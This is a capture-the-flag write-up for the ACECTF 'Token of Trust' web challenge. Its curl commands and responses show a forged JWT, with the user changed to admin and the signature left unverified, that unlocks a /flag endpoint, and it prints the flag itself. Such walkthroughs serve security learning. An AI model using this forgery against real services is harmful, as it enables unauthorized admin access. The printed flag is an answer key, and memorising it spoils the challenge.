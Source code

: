 # Token of Trust

## Background

At first, this web app seems straightforward, but there’s something more lurking beneath the surface. It relies on a token for user authentication, but not everything is as secure as it seems. Look closely, and you might discover that the system’s trust can be manipulated.

The secret is hidden within the way this token is used. Can you find the key to unlock what’s been concealed? The challenge is waiting for you to crack it.

Submit your answer in the following format: ACECTF{3x4mpl3_fl4g}

[http://34.131.133.224:9999/]()

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-14.jpg)

- **Difficulty: Easy**
- **This challenge doesn't have source code**

## Enumeration

Index page:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-15.jpg)

The index page tells us that if we want to log in, we have to visit `/login` endpoint:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-16.jpg)

The page says that we have to send a POST request with JSON payload like: `{"user":"ace","pass":"ctf"}` and it's doesn't care about our credentials. So I will use `curl` to test this endpoint:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"user":"ace","pass":"ctf"}' http://34.131.133.224:9999/login
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}
```
> Remember to set the Content-Type header to application/json if you want to send request with JSON data!

It will response to us with a **token**. This **token** has the `JWT` format, I will use [jwt.io](https://jwt.io/) to see the content of this `JWT`:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-17.jpg)

This `JWT`'s algorithm is `HS256` and with this `JWT`, we are currently a `guest` user. But the problem here is, what do we do with this **token**, because we don't know any endpoint to send this **token** to. If we try to send POST request to the endpoint `/login` with this **token**, it will return:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}' http://34.131.133.224:9999/login
Invalid POST data. Did you forget the magic JSON format?
```

And if we POST the **token** with `user` and `pass`, it will return the token again:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"user":"ace","pass":"ctf","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}' http://34.131.133.224:9999/login
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}
```

I have checked through the source page, but nothing special. So I decides to check if this page has the `robots.txt` file:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-18.jpg)

And yes! This page has the `robots.txt` file and it's telling us this page has the endpoint `/flag`. I will send POST request to this endpoint to see how it responses:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST http://34.131.133.224:9999/flag
No token? No flag! Bring me a token, and we'll talk. 👀 
```

So we need to POST to it a **token**. We don't know the format of the data to send to this endpoint, so we will try with the JSON data:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}' http://34.131.133.224:9999/flag       
Sorry, you're not the admin. No flag for you! 😝
```

## Exploitation

It says that we are not the admin. So we need to change the value of the `user` key of the `JWT` from `guest` to `admin`. There's a problem that if we want to change any value of the `JWT`, we will need to know the secret key, otherwise we can't have a valid `JWT` because of the `signature` part. But we will try to change the value without the secret key, maybe the server won't check the **signature verfication**:

![alt text](https://raw.githubusercontent.com/vodanh1903/CTF-Writeups/refs/heads/main/ACECTF-1.0/images/image-19.jpg)

Send this new `JWT` to the `/flag` endpoint:

```bash
┌──(vodanh㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.lo6cc_YVMrNFnffGek_avzLJ_mgkuvBsSz52NO3_6Kk"}' http://34.131.133.224:9999/flag
ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}
```

Luckily, we got the flag!

- **Flag: `ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}`**

## Conclusion

What we've learned:

1. JWT authentication bypass via payload header injection